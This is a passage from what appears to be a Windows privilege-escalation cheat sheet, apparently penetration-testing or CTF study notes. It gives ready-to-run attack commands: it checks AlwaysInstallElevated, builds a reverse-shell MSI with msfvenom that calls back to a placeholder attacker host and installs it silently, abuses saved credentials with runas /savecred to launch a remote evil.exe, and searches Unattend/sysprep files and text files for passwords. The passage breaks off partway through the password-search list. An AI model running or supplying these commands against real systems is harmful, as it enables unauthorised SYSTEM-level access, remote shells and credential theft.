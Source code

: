     

  



#### 10. Misc

1. **"AlwaysInstallElevated"**

   ```
   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```

   If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) *.msi files as NT AUTHORITY\SYSTEM.

   ```
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_ip LPORT=LOCAL_PORT -f msi -o malicious.msi
   ```

   Execute 

   ```
   msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
   ```

   

2. **stored credentials** (windows vault / credentials manager)

   ```
   cmdkey /list
   ```

   Then using stored credentials with `runas` to get a cmd

   ```
   runas /savecred /user:admin cmd.exe
   runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
   ```

   

3.  **Passwords**

   1. Windows Installation Files - sometimes it will contain an administrator password

      common locations

      ```powershell
      C:\Unattend.xml
      C:\Windows\Panther\Unattend.xml
      C:\Windows\Panther\Unattend\Unattend.xml
      C:\Windows\system32\sysprep.inf
      C:\Windows\system32\sysprep\sysprep.xml
      
      # search for specific keyword in txt file
      findstr /si password *.txt
      findstr /si password *.xml
      findstr /si password *.ini
      findstr /si password *.xml *.ini *.txt
      	/s		# search in all subdirectories
      	